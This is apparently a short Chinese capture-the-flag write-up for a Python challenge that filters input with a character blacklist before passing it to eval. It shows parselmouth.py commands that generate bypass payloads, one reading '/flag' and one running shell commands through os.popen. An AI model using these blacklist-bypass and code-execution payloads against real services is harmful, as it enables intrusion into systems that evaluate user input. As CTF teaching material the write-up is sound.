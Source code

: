 题目代码比较简单，大致阅读下代码即可提取出黑名单规则：`r"[A-Zd-z\\. /*$#@!+^]"`。后面 open 里使用了 eval，要么是让 eval 返回一个 `/flag` 直接尝试读取，要么就是 rce。

以构造 `/flag` 字符串为例子：

```
python3 parselmouth.py --payload "'/flag'" --rule "__" "." "'" '"' "read" "chr" "\\" "/" "*" "$" "#" "@" " " "+" "^" "A" "B" "C" "D" "E" "F" "G" "H" "I" "J" "K" "L" "M" "N" "O" "P" "Q" "R" "S" "T" "U" "V" "W" "X" "Y" "Z" "d" "e" "f" "g" "h" "i" "j" "k" "l" "m" "n" "o" "p" "q" "r" "s" "t" "u" "v" "w" "x" "y" "z"
```

或者直接

```
python3 parselmouth.py --payload "'/flag'" --re-rule '[A-Zd-z\\. /*$#@]'
```

RCE 的话，可以把命令的输出重定向到一个文件中，最后在 echo 返回这个文件名的字符串，举例：

```
python3 parselmouth.py --payload "__import__('os').popen('id > txt 2>&1 |echo txt').read().strip()" --re-rule '[A-Zd-z\\. /*$#@]'
```
